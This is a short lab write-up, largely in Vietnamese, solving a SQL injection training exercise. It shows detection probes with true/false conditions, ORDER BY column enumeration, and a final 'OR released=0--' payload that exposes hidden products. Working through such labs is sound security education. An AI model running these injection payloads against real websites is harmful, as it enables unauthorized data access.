

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## 1. Detect SQL injection

Request test:

```http
GET /filter?category=Accessories'+-- HTTP/2
```

Kết quả hiển thị giống `/filter?category=Accessories`, nên nghi ngờ có SQLi.

Xác nhận thêm bằng điều kiện đúng/sai:

```text
/filter?category=Accessories'+and+2=1--   // không hiển thị danh sách sản phẩm
/filter?category=Accessories'+and+1=1--   // có hiển thị danh sách sản phẩm
```

Response khác nhau, chứng tỏ input đang ảnh hưởng đến logic SQL.

## 2. Kiểm tra bổ sung

Kiểm tra thấy:

```text
'+ORDER+BY+8--   -> vẫn chạy
'+ORDER+BY+9--   -> 500 Internal Server Error
```

## 3. Payload giải bài

Đề yêu cầu: display one or more unreleased products
và cung cấp mẫu truy vấn hiện tại:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Payload:

```text
/filter?category=Accessories'+OR+released=0--
```

Payload này giúp lấy cả sản phẩm chưa release (`released = 0`).


